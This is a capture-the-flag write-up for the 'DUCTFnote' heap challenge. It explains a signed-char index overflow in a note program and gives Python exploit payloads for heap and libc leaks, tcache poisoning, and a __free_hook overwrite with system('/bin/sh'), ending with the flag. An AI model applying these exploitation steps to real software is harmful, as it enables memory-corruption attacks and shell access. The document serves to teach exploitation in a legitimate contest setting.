


# DUCTFnote

## Description



Files: [ductfnote](files/ductfnote) [ductfnote.c](files/ductfnote.c) [libc-2.31.so](file/libc-2.31.so)

## Overview
We are provided with a note application, we can store and delete notes, but just one at a time.<br>
```
1. Create Note
2. Show Note
3. Edit Note
4. Delete Note
>>
```
The authors gave us the source code, so the reversing part is pretty stright forward.

The notes are stored as simple structs with the note's size and a buffer:
```c
typedef struct datanote {
	unsigned int size;
	char data;  // this will behave as char[allocated_size - 4]
} datanote_t;
```

The first strange thing we notice is that the max size of the notes' buffer is stored as a struct of a single element on the heap. That's really unnecessary and we already know that this will probably be a vulnerability.
```c
param_t*  params = (param_t*)malloc(sizeof(param_t));
params->maxsize = 0x7f;
```
Than it loops forever in the main cycle, where it handles the notes.

The ```create_note``` function takes the size of the note as a parameter, checks if it is smaller or equal than ```params->maxsize```, allocates a chunk of size: ```(size | 0x80) + 8``` (this will be really annoing later) and set ```note->size``` to the input size.

The ```show_note``` just checks if the note is not ```NULL``` and print it with a fwrite.

The ```edit_note``` checks if the note exists and read one character at a time in a loop until we enter a ```\n``` or the buffer is full, using a signed char as an index (ehmmm, a signed char?).

And the ```free``` is not even a separate function, it just free ```note``` and set it to ```NULL```.

## Vulnerabilities
In first place the max size we can give to a note is 127. This is also the max value of a signed char and the size check is done as ```idx <= note->size```. So if we set the size to 127, we will never exceed the size of the note since we have an integer overflow and the number after 127 is -128. Hence, we can write both on the previous chunk and on the metadata of the note chunk, as well as the ```size``` parameters of the note struct.<br>
The other vulnerability stands in the ```params``` struct, since we can write before a chunk, we can completely overwrite this struct and set the max size to an arbitrary number, so we are not bounded anymore with this and we can allocate an arbitrary size.<br>
With the same idea we can overwrite the last bins' pointers in the tcache, but since the counter of those bins is set to zero, I couldn't get enything out of this vulnerability.

## Exploitation
Even if we are able to do almost anything with sizes and chunks, the exploitation process is pretty intrigued, since we can handle just one note at a time and we can write at a maximum distance of 128 from the note buffer in both direction.

First thing, need to we modify the max size to ```UINT_MAX```, to obtain arbitrary size allocation. At the same time we can leak the heap address.

We allocate a note with size 127 and free it so we can come back later, because of tcache (the libc is 2.31) it will not be consolidated with top chunk. Then, we allocate and free a smaller chunk, that will be our heap leak and we go back to the first chunk.
```python
create (127)    # vulnerable chunk
delete ()
create (10)     # leak chunk
delete ()
create (127)    # back to the first chunk
```

We set ```params->maxsize``` to ```UINT_MAX``` and ```note->size``` to a big number, so we can read the next free chunk's pointers.
```python
payload  = b"A" * 212
payload += p64 (0x21)		# params chunk size
payload += p64 (0xffffffff)	# params maxsize
payload += b"A" * 16
payload += p64 (0x111)		# note chunk size
payload += p64 (0x1000)		# note size
edit (payload)
```
And the memory will look like this:<br>
<br>
Read the note and, since it uses a fwrite that doesn't stop to ```\x00```, we have the heap offset.

Now we need arbitrary allocation and a libc leak, this is the part that took me the most time.<br>
I first tried to make the smallest possible chunk and corrupt it's pointers with the next chunk, but because the allocation size is ```(size | 0x80) + 8``` it's impossible to reach them. I also tried to overflow the size: creating a note with size -2 it will allocate a chunk of size 0x20, but afterward we cannot write into it, because ```note->size``` is still -2.<br>
For the libc leak, we should allocate a chunk with size greater than 0x410 to be freed in the unsorted bins, but we can free it only if it is the last one, so it will be consolidated with the top chunk and it won't leak the main arena's pointers. I thought about freeing fake chunks to consume the tcache, but both fastbins and unsorted bins has checks that doesn't allow me to do so.

In order to get the leak we have to create a big chunk made of smaller chunks, separate it from the top chunk, change the chunk size of the first small one to the sum of all the chunks and now we have a huge chunk that will be in the unsorted bins and that is separated from the top chunk.<br>
We also free the second inner chunk, because later we will need to go back to it.<br>
```python
create (0x380)  # this will be the base of the huge chunk
delete ()       # we have to free it so we can came back to it

create (0x390)  # this is the second inner chunk
delete ()		# we also free it to use it later

create (0x400)	# this is just to have a lot of space

create (0x100)  # we separate everything from the top chunk

create (0x380)  # and now back to the base of the huge chunk

# modify the size of the base chunk to be the sum of all the chunks
payload  = b"A" * 244
payload += p64 (0xbc1)	# note chunk size
edit (payload)

delete ()
# free it and it will deallocate all the space occupied by the inner chunks
```
I known this is confusing so here's an image that can hopefully explain this better.<br>
<br>
At this point every next chunk that is not in the tcache bins (remeber the 0x390 chunk) will be allocated consuming the huge chunk (if it fits in it).<br>
And also, now we have the pointers to the main arena and we can leak the libc address.

We allocate a chunk that will start consuming the huge chunk, then, with the same trick used to leak the heap, we leak the libc.
```python
create (127)

payload  = b"A" * 244
payload += p64 (0x111)		# note chunk size
payload += p64 (0x1000)		# note size
edit (payload)
```
We print it and get the libc address.

There is just one obstacle between us and arbitrary allocation: the tcache counter. To get it, we need to set it to two (by freeing two chunks of the same size) and corrupt the pointers of the second one. Since we can handle just one note at a time, we cannot normally free two chunks of the same size, but luckly we have a nice setup to achieve it with some tricks.

We have to use the second inner chunk that we freed before. We create a chunk of size 0x290 (this is the size of our target bin) and free it, this will move the base of the huge chunk just under our checkpoint chunk and create the first freed chunk. We allocate a slightly bigger chunk (0x2a0) and modify its size to be the size of the other chunk, always with the signed char overflow trick. So, we have the second freed chunk, that can also be overwritten by the checkpoint chunk.
```python
create (0x290)  # first chunk
delete ()

create (0x2a0)  # second chunk

payload  = b"A" * 212
payload += p64 (0x3a1)			# this is the 0x390 chunk
payload += b"A" * 8				# we don't care about the forward pointer
payload += p64 (heap + 0x10)	# restore the backward pointer of the 0x390 chunk
payload += b"A" * 8
payload += p64 (0x2a1)			# chunk size (this is also the real size of the 0x290 chunk)
edit (payload)

delete ()
# now we have two chunks of size 0x2a0 deallocated and we can corrupt the pointers of the last one

create (0x390)  # checkpoint chunk, this will overwrite the second chunk
```
Now the memory will look like this:<br>


Perfect, we modify the forward pointer of the second freed chunk, allocate two chunks of the same size and the second one will be allocated where we want. I used the free hook, since it can be triggered by deleting a note and it will pass the note pointer as the first argument (and that's the only thing we need, to call ```system ("/bin/sh")```).

```python
payload  = b"A" * 28
payload += p64 (libc.symbols["__free_hook"] - 0x20)	# this is the target chunk forward pointer
edit (payload)

# the first allocation consume the first tcache bin
create (0x290)

# this will be allocated on the free hook
create (0x290)
```

Now we have a chunk just before the free hook, and we can write on it.<br>
We have to overflow the signed char once again, because the note struct's first parameter is the size and it has zeros in it, so we cannot just set the buffer to ```;/bin/sh```, because the string will stop before it.
```python
payload  = b"A" * 28
payload += p64 (libc.symbols["system"]) # this will be on the free hook
payload += b"A" * 216
payload += b"/bin/sh\x00"   # this will be at the beginning of the note struct, so the free will be called with the address pointing to it
edit (payload)
```
Free this chunk and here's the shell<br>


## Flag
DUCTF{n0w_you_4r3_r34dy_f0r_r34l_m$_0d4y}
